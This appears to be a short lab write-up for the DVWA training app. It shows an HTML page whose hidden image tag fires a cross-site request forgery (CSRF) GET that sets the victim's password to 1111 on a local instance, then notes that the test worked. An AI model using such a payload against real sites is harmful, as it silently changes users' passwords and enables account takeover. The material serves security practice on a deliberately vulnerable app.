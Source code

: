 ## GET

### by <img /> tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
  <img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
</ body>
</html>
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2017.png)

test ok

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2018.png)
